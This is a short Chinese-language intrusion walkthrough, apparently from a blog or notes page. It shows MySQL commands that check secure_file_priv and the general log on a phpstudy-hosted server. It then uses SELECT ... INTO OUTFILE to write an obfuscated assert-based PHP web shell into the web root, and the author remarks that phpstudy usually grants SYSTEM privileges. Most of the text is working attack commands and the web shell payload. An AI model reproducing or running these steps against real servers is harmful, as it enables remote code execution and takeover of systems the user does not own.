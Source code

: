 看了一下secure_file_priv，发现是空的，所以能写文件上去

```
show variables like "secure_file_priv";
```

![img](./images/20231017_2352086613.png)

查看日志发现是phpstudy起的服务，那就很好，因为这东西权限很高，一般连上去就是system权限，不用udf提权了

```
show variables like "%general%"
```

![img](./images/20231017_2352097727.png)

```
select "<?php $arr = [$_POST[Ki1ro],$_REQUEST[Ki1ro]];@assert($arr[mt_rand(0,1)]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

![img](./images/20231017_2352106393.png)